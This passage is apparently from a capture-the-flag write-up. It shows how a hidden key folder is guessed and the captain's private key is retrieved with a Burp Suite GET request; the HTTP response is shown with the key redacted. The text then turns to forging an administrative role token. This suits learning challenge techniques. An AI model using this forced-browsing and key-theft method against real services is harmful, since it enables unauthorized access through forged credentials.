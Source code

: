 ![hints](../img/objectives/o18/decoder3.png)

We have the frequency we need to broadcast to our enemy to lead them
to the wrong place and time. 

After you login as rDecoder, it’s time to get the private key from our captain. Since we have the folder name, we can make GET request via Burp Suite as: 

```GET /jwtDefault/keys/TH3CAPSPR1V4T3F0LD3R/capsPrivKey.key HTTP/2```

Remember the hint our Captain likes abbreviations? This is how we can guess his/her key name.

```bash linenums="1" hl_lines="7" title="Just code"
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
Vary: Accept-Encoding
X-Cloud-Trace-Context: 3afec0eab361941cc6728f78d2aa8f3f
Date: Sun, 17 Dec 2023 20:31:40 GMT
Server: Google Frontend
Cache-Control: private
Content-Length: 1704
Via: 1.1 google, 1.1 google
Alt-Svc: h3=":443"; ma=2592000,h3-29=":443"; ma=2592000

-----BEGIN PRIVATE KEY-----
<private key>
-----END PRIVATE KEY-----
```
Now it’s time to generate the unique administrative with the administrative ROLE, as a TRANSMITTER. However, radioTransmitter or rTransmitter is not working. Let's look at captain's jouirnal: 
